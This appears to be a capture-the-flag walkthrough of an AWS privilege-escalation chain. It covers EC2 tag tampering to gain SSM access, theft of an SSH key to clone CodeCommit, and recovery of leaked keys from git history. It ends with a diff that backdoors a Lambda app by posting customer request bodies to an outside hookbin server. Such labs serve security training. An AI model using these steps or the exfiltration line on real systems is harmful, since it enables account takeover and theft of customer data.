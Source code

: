 

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

## Step 2

Once on the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`. You can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ ssh-keygen -f .ssh/stolen_key -l -E md5
2048 MD5:be:5e:49:5e:e5:d0:66:bb:91:30:3f:66:2e:97:1a:11

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id APKA254BBSGPK2B5K5YQ --encoding PEM --output text --query 'SSHPublicKey.Fingerprint' 
be:5e:49:5e:e5:d0:66:bb:91:30:3f:66
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:

- Copy the SSH key to your local machine (`.ssh/stolen_key`) and `chmod 700` it

- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host *.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
```

- Then, clone the repository using `git clone ssh://APKA2...@git-codecommit.eu-west-1.amazonaws.com/v1/repos/backend-api`

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code that sends the secret data to an attacker-controlled server:

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx9QGWGQMoUBjzggjga9", data=body)
   if body is None:
     return 400, "missing body"
```

- Commit the file and push it. The easiest is to use the AWS Console. You can also use the AWS CLI:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7fb17e3759d120404d2b0fe28b92c0a755e"
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id e6a2c7fb17e3759d120404d2b0fe28b92c0a755e
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. After a few minutes, your backdoored application will be deployed, and your attacker-controlled server will receive the flag!

```

```